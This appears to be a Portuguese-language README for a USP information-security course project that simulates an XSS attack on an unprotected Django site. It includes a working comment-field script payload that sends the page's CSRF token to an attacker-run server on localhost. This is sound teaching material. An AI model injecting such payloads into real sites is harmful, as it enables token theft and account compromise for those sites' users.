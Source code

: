 # PCS3544
Segurança da Informação (2023)

Escola Politécnica da USP

Alunos:
* Gustavo Freitas de Sá Oliveira - 11261062
* Roberta Boaventura Andrade - 11260832

Simulação de um ataque XSS a um site sem proteção

### Utilização

* Terminal da aplicação
```properties
pip install django

cd ./web
python manage.py makemigrations
python manage.py migrate
python manage.py runserver
```

* Terminal do atacante
```properties
python -m http.server 80
```

* Código malicioso a ser inserido no campo de comentário:

```html
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.0/jquery.min.js" integrity="sha512-3gJwYpMe3QewGELv8k/BX9vcqhryRdzRMxVfq6ngyWXwo03GFEzjsUm8Q7RZcHPHksttq7/GFoxjCVUjkjvPdw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

    <script>
        $.ajax({
            url: "http://localhost:80",
            method: 'GET',
            data: {
                'csrfmiddlewaretoken': document.getElementsByName('csrfmiddlewaretoken')[0].value
            }
        });
    </script>
```